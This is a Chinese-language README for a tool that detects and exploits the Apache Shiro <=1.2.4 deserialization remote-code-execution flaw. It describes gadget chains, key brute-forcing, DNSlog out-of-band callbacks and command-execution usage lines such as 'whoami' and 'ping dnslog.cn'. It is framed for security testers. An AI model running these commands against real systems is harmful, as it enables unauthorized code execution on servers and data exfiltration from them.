 
增加批量检测脚本  
shiro_rce_s  <target.txt|target>  <domain_of_dnslog>  
dns外带漏洞url
使用
decode_url <code> 解码成原始url  
Shiro&lt;=1.2.4反序列化，一键检测工具

    2021·1·15:
    改动内容：1.删除CC8利用链
    改动内容：2.新增xray总结的k1到k4这4个利用链
    改动内容：3.新增Jdk8u20的利用链
    改动内容：4.新增GCM加密发包
    
    过往:
    改动内容：1.新增17个利用链模块,共28个利用链，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.可直接获得目标使用key值
    改动内容：3.新增30个key(再多意义也不大)
    改动内容：4.输入命令自动进行bash编码，防止未了解此漏洞的人踩坑,但要注意的是如果执行的命令为携带``符号，常用于dnslog外带命令，需自行传入bash编码，否则终端会自行将本地执行结果带入命令中


```
共集成51个key进行fuzz
```
![](./run.png)
* 如果有帮助，请点个star哦， blog：https://www.svenbeast.com
* pip3 install -r requirments.txt   
* 若import模块错误，安装不成功，请到linux系统安装运行，或者去python库将crypto首字母改为大写并尝试pip install pycryptodome")
* 如果存在异常java信息，请使用jdk1.8环境运行，避免使用高版本java运行

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 28个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为目标使用的编码很冷门，可使用其他工具

* 请自行收集编码，在moule下的key.log中自行添加即可(格式: key:任意值)

## 本着尽可能的检测目标是否存在漏洞为目的所开发，并未对利用链进行大量删减
## 不推荐当做exp使用，效率问题
## 内置的yso的jar包存在tomcat回显链，并未集成到工具中，初衷是漏洞检测工具，有条件的可自行生成payload，header加入cmd:whoami即可
## 仅供安全人员验证,测试是否存在此漏洞
